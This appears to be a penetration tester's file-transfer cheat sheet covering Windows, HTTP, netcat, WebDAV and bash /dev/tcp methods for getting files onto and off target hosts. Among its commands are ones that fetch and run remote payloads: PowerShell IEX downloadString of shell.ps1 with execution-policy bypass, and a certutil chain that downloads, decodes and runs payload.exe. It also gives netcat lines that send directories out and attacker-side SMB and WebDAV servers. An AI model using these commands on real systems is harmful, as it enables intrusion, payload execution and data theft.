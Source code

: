# share files

## Windows

```bash
certutil.exe -urlcache [-split] -f <source> <destn>
PS> wget <source> -OutFile <dest>
PS> Invoke-WebRequest -Uri <source> -Outfile <dest>
powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
certutil.exe -urlcache -split -f <source> payload.b64 & certutil.exe -decode payload.b64 payload.exe & payload.exe
bitsadmin /transfer job <source> <dest>
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

# SMB Server
impacket-smbserver [-smb2support] drive .

# on windows to copy (download)
copy \\IP\drive\file
# upload 
copy file \\IP\drive\

# mount smb-share-drive on windows using powershell
PS> New-PSDrive -Name "winDrive" -PSProvider "FileSystem" -Root "\\IP\drive"
Navigating to "winDrive" shows us all files

# upload dir (with all in it)
robocopy dir \\IP\drive\ /E
[OR]
net use Z: \\IP\drive /u:<username> <pass>
copy file Z:\
```

## HTTP Server

Alternative: [sc0tfree/updog](https://github.com/sc0tfree/updog)

```bash
python3 -m http.server 80
python2 -m SimpleHttpSever 80
php -S IP:PORT
wget <IP>:<PORT>/<file> -O <file>
curl <IP>:<PORT>/<file> -o <file>
scp file kashz@IP:/PATH/FILE

# download all files
wget -r <IP>:<PORT>/<DIR>/

# using base64
base64 <executable> > out
base64 -d out > <executable>
```

## NC

```bash
# receiver
nc -l -p <PORT> > out.file
# sender
nc -w 3 <IP> <PORT> < in.file

# receiver
nc -l -p 1234 | uncompress -c | tar xvfp -
# sender
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## webdav

```bash
# pip install wsgidav cheroot
mkdir /tmp/kashz; wsgidav --host=IP --port=80 --root=/tmp/kashz

# windows
net use * http://IP/
```

## Curl function (linux only)

Use when system does not have `wget, curl.`NOTE: works for binary files too. Fails for `https://` with self signed certificates.

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
# usage
__curl http://IP/FILE > out
```
